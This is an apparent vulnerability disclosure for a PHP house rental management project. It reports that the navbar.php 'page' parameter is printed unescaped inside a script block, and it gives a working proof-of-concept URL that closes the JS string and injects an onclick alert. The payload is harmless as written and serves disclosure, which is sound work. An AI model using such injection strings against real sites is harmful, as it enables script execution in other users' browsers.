


# Best house rental management system project in php - XSS

It was found that `$_GET['page']` is directly output to the page.

Using `'` to close the JS triggers XSS.

`/navbar.php?page='</script><a onclick=alert(1)>aaaaaaaaaaaaaa</a><script>'`

